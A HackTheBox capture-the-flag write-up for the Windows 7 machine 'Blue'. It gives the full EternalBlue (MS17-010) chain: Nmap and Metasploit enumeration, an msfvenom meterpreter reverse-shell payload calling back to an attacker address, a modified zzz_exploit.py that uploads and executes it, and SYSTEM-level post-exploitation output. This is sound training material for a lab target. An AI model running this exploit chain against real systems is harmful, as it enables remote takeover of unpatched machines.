

# [[HackTheBox] Blue](https://www.hackthebox.eu/home/machines/profile/51)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [exploit_smb_ms17_010](https://github.com/7h3rAm/writeups/search?q=exploit_smb_ms17_010&unscoped_q=exploit_smb_ms17_010)  

## Overview
This is a writeup for HackTheBox VM [Blue](https://www.hackthebox.eu/home/machines/profile/51). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms17_010](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 17:05:41 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/xml/_quick_tcp_nmap.xml 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.15s latency).
Scanned at 2019-11-01 17:05:41 PDT for 171s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 57283/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 60472/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 17:08:32 2019 -- 1 IP address (1 host up) scanned in 171.43 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. We find SMB ports to be open on the target system. We run a Nmap NSE script scan to check if the SMB service is vulnerable:  
``` {.python .numberLines}
nmap -p139,445 --script smb-vuln-* --script-args=unsafe=1 10.10.10.40

```

  

4\. We find that the target system is missing patches from [MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) bulletin and as such vulnerable. We can use the [zzz_exploit.py](https://github.com/worawit/MS17-010) EternalBlue exploit to gain interactive access. But before that we need to determine the target OS version and the name of an active pipe:  

5\. We first use Metasploit auxiliary module `scanner/smb/smb_version` to determine target OS version to be `Windows 7 Professional SP1 (build:7601) (name:HARIS-PC)`:  
``` {.python .numberLines}
msfconsole
  use auxiliary/scanner/smb/smb_version
  show options
  set RHOSTS 10.10.10.40
  run

```

  

6\. Then we use another Metasploit auxiliary module `scanner/smb/pipe_auditor` to find multiple open pipes `\netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \keysvc, \lsass, \LSM_API_service, \ntsvcs, \plugplay, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc`:  
``` {.python .numberLines}
msfconsole
  use auxiliary/scanner/smb/pipe_auditor
  show options
  set RHOSTS 10.10.10.40
  run

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
135/tcp    |  msrpc         |  Microsoft Windows RPC
139/tcp    |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp    |  microsoft-ds  |  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp  |  msrpc         |  Microsoft Windows RPC
49153/tcp  |  msrpc         |  Microsoft Windows RPC
49154/tcp  |  msrpc         |  Microsoft Windows RPC
49155/tcp  |  unknown       |
49156/tcp  |  msrpc         |  Microsoft Windows RPC
49157/tcp  |  msrpc         |  Microsoft Windows RPC
```

\newpage
## Phase #2: Exploitation
1\. We now need to create a binary payload file. For this exploit, we will use `meterpreter` as the payload and then use `multi/handler` to catch the incoming shell connection. We then slightly tweak the exploit file to first copy the binary payload on to the target system and execute it:  
``` {.python .numberLines}
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=443 -f exe >mtrptr.exe
subl zzz_exploit.py
  def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
    + smb_send_file(smbConn, '/root/toolbox/writeups/htb.blue/mtrptr.exe', 'C', '/mtrptr.exe')
    + service_exec(conn, r'cmd /c c:\\mtrptr.exe')
msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.14.18
  set lport 443
  set ExitOnSession false
  exploit -j
python zzz_exploit.py 10.10.10.40 netlogon
msfconsole
  sessions -i 1
  getuid

```

  

  

  

  

  

2\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
``` {.python .numberLines}
sysinfo
cat C:\Users\haris\Desktop\user.txt
cat C:\Users\haris\Desktop\root.txt

```

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@HARIS-PC> id
NT AUTHORITY\SYSTEM
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> uname
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IPv6 Address. . . . . . . . . . . : dead:beef::c530:b184:97a4:fd67
  Temporary IPv6 Address. . . . . . : dead:beef::4d8e:bdfd:4c8b:3189
  Link-local IPv6 Address . . . . . : fe80::c530:b184:97a4:fd67%11
  IPv4 Address. . . . . . . . . . . : 10.10.10.40
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:db57%11
                                      10.10.10.2
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> users
Administrator
haris
```

\newpage

\newpage

## Loot
### Flags
``` {.python .numberLines}
C:\Users\haris\Desktop\user.txt: 4c546aea7dbee75cbd7.............
C:\Users\Administrator\Desktop\root.txt: ff548eb71e920ff6c0..............
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/51>  
[+] <https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125>  
